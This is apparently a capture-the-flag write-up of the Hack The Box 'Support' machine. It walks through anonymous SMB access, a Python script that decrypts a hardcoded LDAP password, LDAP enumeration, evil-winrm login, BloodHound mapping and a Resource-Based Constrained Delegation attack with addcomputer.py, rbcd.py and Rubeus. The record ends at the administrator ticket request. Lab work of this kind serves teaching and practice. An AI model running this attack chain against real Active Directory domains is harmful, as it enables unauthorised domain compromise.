## Write-up/Report - support.htb

### About Target

Support is a Windows machine that features an SMB share that allows anonymous authentication. After connecting to the share, an executable file is discovered that is used to query the machine's LDAP server for available users. Through reverse engineering, network analysis or emulation, the password that the binary uses to bind the LDAP server is identified and can be used to make further LDAP queries. A user called support is identified in the users list, and the info field is found to contain his password, thus allowing for a WinRM connection to the machine. Once on the machine, domain information can be gathered through SharpHound, and BloodHound reveals that the Shared Support Accounts group that the support user is a member of, has GenericAll privileges on the Domain Controller. A Resource Based Constrained Delegation attack is performed, and a shell as NT Authority\System is received

---
### Attack Phases :
**Phase 1** - `Reconnaissance`<br>
**Phase 2** - `SMB Enumeration`<br>
**Phase 3** - `Reverse Engineering and Decryption`<br>
**Phase 4** - `LDAP Eunmeration`<br>
**Phase 5** - `WinRM Access`<br>
**Phase 6** - `BloodHound Enumeration`<br> 
**Phase 7** - `RBCD Attack and Privilege Escalation`<br>
**Phase 8** - `Domain Compromise`<br>

---
<br>

### Phase 1 - Recconnaissance - Enumeration

I first performed an initial active reconnaissance using nmap scanning on the target IP address, and it turned out that the device was a domain controller with important open ports

<br>

### Scan Results :

| Port | Service | Description |
|------|---------|-------------|
| 53 | DNS | Domain Name System - converts names to IPs |
| 88 | Kerberos | Authentication protocol for Active Directory (TGT/TGS tickets) |
| 135 | RPC | Remote Procedure Call |
| 139 | NetBIOS | Legacy sharing system |
| 389 | LDAP | Lightweight Directory Access Protocol - Active Directory database |
| 445 | SMB | Server Message Block - file sharing, lateral movement |
| 464 | kpasswd | Kerberos password change protocol |
| 593 | RPC over HTTP | Remote control service |
| 636 | LDAPS | Secure LDAP (encrypted) |
| 3268 | Global Catalog (LDAP) | Allows searching for any objects in AD forest |
| 3269 | Global Catalog (SSL) | Secure Global Catalog |

### Target Information :

| Field | Value |
|-------|-------|
| **Target IP** | 10.126.230.181 |
| **OS** | Microsoft Windows Server |
| **Hostname** | Domain Controller |
| **Domain** | support.htb |

---

### Phase 2 - SMB Enumeration

I enumerated and listed the available `SMB shares` using `smbclient` with null session authentication that had no passoword required

<rb>

```bash
smbclient -L //10.129.230.181 -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share
```

I successfully accessed the `support-tools` share without providing credentials and downloaded a suspicious file named `UserInfo.exe.zip`<br>

<br>

```bash
smbclient //10.129.230.181/support-tools -N

smb: \> ls
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 12:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 12:19:55 2022
  putty.exe                           A  1273576  Sat May 28 12:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 12:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 18:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 12:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe   A 44398000  Sat May 28 12:19:43 2022

smb: \> get UserInfo.exe.zip	
  getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip
```
<br>

### Phase 3 - Reverse Engineering and Decryption

After extracting the contents of the ZIP archive, I analyzed the extracted files and identified that the `UserInfo.exe` binary contained sensitive data
I reversed the program by `ghidra`, used strings across the file and discovered an `enc_password` variable and a `getPassword` function, indicating that the password was encrypted
I then located the encrypted password in the hex dump using `xxd`

<br>
<br>

```
	00001e20: 656e 7472 7900 0000 0061 3000 4e00 7600  entry....a0.N.v.
	00001e30: 3300 3200 5000 5400 7700 6700 5900 6a00  3.2.P.T.w.g.Y.j.
	00001e40: 7a00 6700 3900 2f00 3800 6a00 3500 5400  z.g.9./.8.j.5.T.
	00001e50: 6200 6d00 7600 5000 6400 3300 6500 3700  b.m.v.P.d.3.e.7.
	00001e60: 5700 6800 7400 5700 5700 7900 7500 5000  W.h.t.W.W.y.u.P.
	00001e70: 7300 7900 4f00 3700 3600 2f00 5900 2b00  s.y.O.7.6./.Y.+.
	00001e80: 5500 3100 3900 3300 4500 000f 6100 7200  U.1.9.3.E...a.r.
	00001e90: 6d00 6100 6e00 6400 6f00 0025 4c00 4400  m.a.n.d.o
```

#### I extracted the hash and key :
	
**enc_password** = `0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E`<br>
**key** = `armando` 

I discovered that the decryption method, used XOR encryption using the key "armando" and a constant value of 223

I code this python script to reverse the XOR encryption and decode the base64 encoded password

```py
	import base64
	enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
	key = "armando" 
	enc_bytes = base64.b64decode(enc_password)
	decrypted = []
	for i in range(len(enc_bytes)):
	    decrypted_char = enc_bytes[i] ^ ord(key[i % len(key)]) ^ 223
	    decrypted.append(decrypted_char)
	password_res = bytes(decrypted).decode('utf-8')
	print(f"decrypted password: {password_res}")
```
After decryption, the real password is : `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`<br>

### Phase 4 - LDAP Enumeration

By obtaining credentials for the service account `ldap`, I performed an LDAP enumeration against the Domain Controller

```bash
ldapsearch -x -H ldap://10.129.228.244 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'  -b 'DC=support,DC=htb'
```
<br>

The most important informations from LDAP result are:

```bash
+ domain :
	dn: DC=support,DC=htb
	dc: support
	ms-DS-MachineAccountQuota: 10
	msDS-Behavior-Version: 7
+ administrator user :
	dn: CN=Administrator,CN=Users,DC=support,DC=htb
	objectSid: S-1-5-21-1677581083-3380853377-188903654-500
	userAccountControl: 512 (Enabled)
	memberOf: Domain Admins, Enterprise Admins, Schema Admins, Administrators
+ kerberos : krbtg account
	dn: CN=krbtgt,CN=Users,DC=support,DC=htb
	objectSid: S-1-5-21-1677581083-3380853377-188903654-502
+ domain controller :
	dn: CN=DC,OU=Domain Controllers,DC=support,DC=htb
	dNSHostName: dc.support.htb
	operatingSystem: Windows Server 2022 Standard
+ groups :
	CN=Domain Admins,CN=Users,DC=support,DC=htb
	CN=Enterprise Admins,CN=Users,DC=support,DC=htb
	CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
+ user : support
	dn: CN=support,CN=Users,DC=support,DC=htb
	info: Ironside47pleasure40Watchful
	memberOf: Remote Management Users 
	memberOf: Shared Support Accounts
```

From these results, I found a `user` that named `support` has the ability to `remotely access the domain controller` via WinRM, as he is a member of the remote management users group, also his password was exposed in the info attribute: `Ironside47pleasure40Watchful`

---
<br>

### Phase 5 - WinRM Access

I logged in with `support user` credentials via `WinRM` to `domain controller`

```bash
evil-winrm -i 10.129.228.244 -u support -p 'Ironside47pleasure40Watchful'
```

<br><br>

I then enumerated the domain using `bloodhound` and discovered that the `support user had GenericAll privilege` on the Domain Controller, this allowed me to perform an `RBCD` "Resource-Based Constrained Delegation" attack to compromise the full domain

I leveraged the support credentials to authenticate to the Domain Controller via WinRM using `evil-winrm`, I established a remote powershell session and confirmed my user context as support\support

I successfully obtained the `USER FLAG` as proof of foothold access to the Domain Controller

<br><br>

### Phase 6 - BloodHound Enumeration 

After establishing the `initial access` as the support user, I needed to understand the `Active Directory environment` and identify potential privilege escalation paths. I deployed `BloodHound` to map the domain structure and analyze permissions

I uploaded `SharpHound.exe` to the `Domain Controller` and `collected Active Directory data`<br>
I imported the data into BloodHound and discovered that the support user had `GenericAll` privilege over the Domain Controller

**Step 1** - confirm current position

Before proceeding with enumeration, I verified my current context and privileges on the Domain Controller

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> whoami
support\support
```

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> hostname
dc
```

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:
   IPv4 Address. . . . . . . . . . . : 10.129.228.244
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.129.228.1
```

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> whoami /groups

GROUP INFORMATION
-----------------
BUILTIN\Remote Management Users  Mandatory group, Enabled by default
BUILTIN\Users                    Mandatory group, Enabled by default
NT AUTHORITY\NETWORK             Mandatory group, Enabled by default
NT AUTHORITY\Authenticated Users Mandatory group, Enabled by default
```

Several additional enumeration commands were performed to map the environment

<br>

Analysis : the `support user` was a `member` of the `Remote Management Users group`, which granted WinRM access, however, the user does not possess direct administrative privileges<br>
Therefore, I needed to identify and execute a privilege escalation attack to gain higher-level access

**Step 2** - upload and execute bloodhound collector

I uploaded `SharpHound.exe`, the `BloodHound data collector`, to the Domain Controller.

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> upload SharpHound.exe
```

To collect comprehensive Active Directory data, I executed `SharpHound.exe` with the `All` collection method, this captured information about users, groups, computers, ACLs, trust relationships, and other domain objects.

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> .\SharpHound.exe -c All
```

After the collection completed, I downloaded the compressed data to my attack machine

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> res_bloodHound.zip
```

**Step 3** - analyze collected data with bloodhound

I set up the `neo4j` database service, then I launched `BloodHound` on my attack machine and imported the collected data

```bash
sudo neo4j start
```
```bash
bloodhound
```
most important bloodhound results :<br>

<br>
<br>
<br>
<br>

BloodHound analysis identified that the support user had `GenericAll privileges` over the Domain Controller (dc.support.htb)

This privilege is particularly powerful because it grants full control over the computer object, allowing modification of the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. After evaluating potential attack vectors, I determined that Kerberoasting and AS-REP Roasting were not viable due to the absence of vulnerable accounts. Instead, I selected a Resource-Based Constrained Delegation `RBCD attack`, as `GenericAll` on the Domain Controller is a direct prerequisite for this technique. Additionally, the domain's `ms-DS-MachineAccountQuota` was set to 10, enabling me to create a `fake machine account` to act as the `delegation` intermediary

I chose a `RBCD attack` over `other methods`, because:

- `Direct Exploitation`:<br>GenericAll on a computer object can be directly leveraged to configure RBCD without requiring additional privileges<br>

- `MachineAccountQuota`:<br>The domain's ms-DS-MachineAccountQuota was set to 10, allowing me to create a fake machine account - a prerequisite for RBCD<br>

- `WinRM Access`:<br>The support user already had WinRM access, enabling me to upload tools and execute commands on the DC<br>

- `Comparison to Alternatives`:<br>Kerberoasting: No vulnerable SPNs were detected<br>DCSync: Would require Domain Admin privileges already<br>Golden Ticket: Would require krbtgt hash extraction first<br><br>


### Phase 7 - RBCD Attack and Privilege Escalation

After discovering that the support user had GenericAll privileges on the Domain Controller, I created a fake machine account named ANR$ and configured Resource-Based Constrained Delegation (RBCD) to allow this fake device to impersonate any user<br><br>

**step 1** - create a fake machine account

```bash
export TARG_IP="10.129.101.216"
```

```bash
python3 addcomputer.py -computer-name 'ANR$' -computer-pass "passtopass" -dc-host $TARG_IP 'support.htb/support:Ironside47pleasure40Watchful'
```


This step was possible because the domain's ms-DS-MachineAccountQuota was set to 10, allowing any authenticated user to create up to 10 machine accounts<br><br>

**step -2-** calculate RC4 hash

I calculated the (RC4: Rivest Cipher 4) (NTLM: NT LAN Manager) hash of the fake machine account's password, which would be required for the attack

```bash
python3 -c "import hashlib; print(hashlib.new('md4', 'passtopass'.encode('utf-16le')).hexdigest())"
```
<br><br>

**step -3-** Configure RBCD on Domain Controller

Using the `rbcd.py` script module, I granted the fake machine account `ANR$` the right to `impersonate` any user on the Domain Controller `DC$`

```bash
python3 rbcd.py -delegate-from 'ANR$' -delegate-to 'DC$' -action write 'support.htb/support:Ironside47pleasure40Watchful' -dc-ip $TARG_IP
```
<br><br>

**step -4-** Request Administrator Ticket via S4U2Proxy

I uploaded `Rubeus2.exe` to the Domain Controller using my existing WinRM session and executed the `S4U2Proxy attack`

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> upload /home/ANRx07/Desktop/AD-DC_Pentesting/Rubeus/Rubeus2.exe
```
<br>

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> .\Rubeus2.exe s4u /user:ANR$ /rc4:c8985874e37925d423423b330fe4e905 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /outfile:admin.kirbi
```


<br>

